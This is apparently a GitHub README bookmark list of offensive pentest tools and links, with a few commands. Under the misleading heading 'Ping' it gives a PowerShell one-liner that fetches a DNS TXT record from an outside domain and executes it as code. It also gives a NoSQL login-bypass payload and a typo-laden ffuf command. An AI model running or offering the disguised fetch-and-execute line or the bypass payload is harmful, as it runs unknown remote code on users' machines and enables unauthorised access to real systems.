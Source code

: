 # ac-bookmark
Free Tools and Source For Security Pentest .. 😎

```sh
https://github.com/jpillora/chisel
https://github.com/samratashok/nishang
https://github.com/411Hall/JAWS
https://github.com/unicorn-engine/unicorn
https://github.com/ropnop/kerbrute
https://github.com/swisskyrepo/PayloadsAllTheThings
https://github.com/cyberheartmi9/Frida-Guide/blob/main/Frida%20Guide/Frida%20Guide.md
https://www.r57shell.net
https://wiki.96.mk/

```

```sh
https://vulners.com
https://crt.sh
https://grep.app
https://github.com/Live-Hack-CVE
```

### Command FUZZIng Check extension in request
```sh
ffuf -request 'file.req' -request-proto hhtp or https -w 'List extensions fuzzing' -ms 'size header+body'
```

### Ping 

```sh
powershell . (nslookup -q=txt mrmtwoj.ir)[-1]
```

### BYPass Sql inkect and json 
```sh
{"username":"admin","password":{"$ne":""}}
```
